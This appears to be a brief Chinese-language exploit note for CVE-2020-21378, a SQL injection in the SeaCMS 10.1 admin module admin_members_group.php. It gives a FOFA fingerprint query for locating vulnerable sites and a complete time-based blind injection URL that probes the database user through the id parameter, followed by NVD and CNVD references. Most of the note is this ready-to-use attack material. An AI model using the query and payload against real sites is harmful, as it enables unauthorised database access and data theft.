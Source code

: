 # SeaCMS SQL注入漏洞（CVE-2020-21378）


影响版本

SEACMS SeaCMS 10.1(2020.02.08)

fofa：

```
app="海洋CMS"
```

PS：有点鸡肋，需要找到后台入口...还需要登录后才行

SeaCMS 10.1 (2020.02.08)存在SQL注入漏洞。攻击者可通过对admin_members_group.php的编辑操作中的id参数利用该漏洞进行SQL注入攻击。

Payload：

```sql
http://10.2.7.9/5owghc/admin_members_group.php?action=edit&id=2%20and%20if(mid(user(),1,1)=%27r%27,concat(rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27))%20RLIKE%20%27(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2bcd%27,1)
```

ref：

https://github.com/hackxf/cms_vul/blob/master/SeacmsSQL.md

https://nvd.nist.gov/vuln/detail/CVE-2020-21378

https://www.cnvd.org.cn/flaw/show/CNVD-2020-74059